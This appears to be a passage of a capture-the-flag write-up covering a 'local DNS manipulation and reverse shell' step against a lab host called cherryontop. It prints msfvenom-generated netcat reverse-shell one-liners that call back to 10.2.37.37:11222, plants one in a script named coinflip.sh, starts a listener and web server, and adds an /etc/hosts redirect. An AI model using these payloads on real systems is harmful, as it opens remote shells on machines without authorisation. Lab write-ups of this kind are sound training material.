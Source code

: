 > **Local DNS Manipulation & Reverse Shell Phase**
> 

`mkdir -p home/bob-boba`

`tree home`

```bash
home
`-- bob-boba
```

`msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=11222 R`

```bash
mkfifo /tmp/dvjcz; nc 10.2.37.37 11222 0</tmp/dvjcz | /bin/sh >/tmp/dvjcz 2>&1; rm /tmp/dvjcz
```

**ANOTHER PAYLOAD TYPE:**

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 11222 >/tmp/f
```

`nano home/bob-boba/coinflip.sh`

```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 11222 >/tmp/f
```

`nc -nlvp 11222`

```bash
listening on [any] 11222 ...
```

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
$ echo '10.2.37.37 cherryontop.tld' >> /etc/hosts
$ cat /etc/hosts 
127.0.0.1 localhost
127.0.0.1 cherryontop.com
127.0.0.1 cherryontop.thm
127.0.0.1 nano.cherryontop.thm
127.0.1.1 nanocherryctf

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.2.37.37 cherryontop.tld
$ 
```
